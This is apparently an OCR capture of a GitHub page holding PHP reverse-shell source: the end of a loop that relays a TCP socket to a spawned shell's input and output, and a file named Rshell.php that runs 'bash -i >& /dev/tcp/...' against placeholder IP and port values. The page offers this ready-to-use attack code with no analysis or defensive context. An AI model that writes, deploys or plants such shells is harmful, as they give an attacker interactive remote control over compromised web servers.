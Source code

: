 ```css
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>

```

# Rshell.php
```css
<?php
    system("bash -c 'bash -i >& /dev/tcp/TUI-P/PUERTO 0>&1'")
?>
```
